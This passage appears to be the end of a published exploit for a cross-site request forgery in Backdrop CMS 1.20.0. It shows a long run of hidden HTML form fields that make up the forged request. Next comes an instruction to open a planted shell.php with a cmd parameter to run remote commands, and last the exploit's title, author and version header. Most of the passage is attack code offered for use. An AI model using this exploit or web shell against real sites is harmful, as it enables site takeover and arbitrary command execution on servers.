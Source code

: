                 <input type="text" name="ajax_page_state[js][core/misc/tableheader.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/dismiss.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/themes/seven/js/script.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.data.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.disable-selection.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.form.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.labels.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.scroll-parent.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.tabbable.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.unique-id.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.version.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.escape-selector.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.focusable.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.form-reset-mixin.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.ie.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.keycode.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.plugin.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.safe-active-element.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.safe-blur.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.widget.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/textarea.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.button.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.mouse.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/jquery.ui.touch-punch.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.draggable.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.position.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.resizable.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/ui/jquery.ui.dialog.min.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/dialog.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/dialog.ajax.js]" value="1">
                <input type="text" name="ajax_page_state[js][core/misc/collapse.js]" value="1">
                <input type="submit" value="Send">
        </form>
</body>
</html> 
Run on your browser: http://example.com/backdrop/modules/reference/shell.php?cmd=[command] to execute remote commands.



# Exploit Title: Backdrop CMS 1.20.0 - 'Multiple' Cross-Site Request Forgery (CSRF)
# Exploit Author: V1n1v131r4
# Date: 2021-09-22
# Vendor Homepage: https://backdropcms.org/
# Software Link: https://github.com/backdrop/backdrop/releases/download/1.20.0/backdrop.zip
# Version: 1.20.0
# Tested On: Kali Linux, Ubuntu 20.04